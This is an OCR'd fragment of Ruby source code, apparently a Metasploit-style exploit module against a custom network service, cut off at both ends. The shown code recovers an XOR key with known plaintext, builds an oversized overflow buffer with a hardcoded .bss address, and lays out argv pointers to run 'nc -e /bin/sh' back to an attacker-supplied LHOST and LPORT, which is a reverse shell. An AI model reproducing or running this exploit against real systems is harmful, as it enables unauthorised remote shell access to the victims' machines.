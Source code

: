       data += new_data
    end
    data
  end

  def xor_encrypt(data, key)
    # Make sure key is the same length as the data
    while key.length < data.length do
      key += key
    end
    key = key[0..data.length-1]  

    data.unpack('C*').zip(key.unpack('C*')).map { |p, e| p ^ e}.pack('C*')
  end


  def exploit
    # Open the TCP connection
    connect

    # Receive initial messages
    buffered_recv(57)

    # Recover the encryption key
    data = "A" *128
    encrypted_data = encrypt(data.length, data)
    key = xor_encrypt(data, encrypted_data)

    # Created enough data to cause a crash
    prejunk = "A" * 0x20010

    cmd = "/bin/nc.traditional"
    null = "\000"
    args = [cmd, "-e", "/bin/sh", datastore['LHOST'], datastore['LPORT'].to_s]
    bss = 0x0804b420
    data = ""


    # Create each of the string pointers
    offset = 24 + cmd.length + 1 # 6 ptrs, the command, and a null
    args.each do |arg|
      data += [bss+offset].pack('V')
      offset += arg.length + 1
    end
    # Terminate the string pointers
    data += [0x00000000].pack('V')

    # The first argument, the filename
    data += cmd + null

    # Create each of the argument strings
    args.each { |arg| data += arg + null }
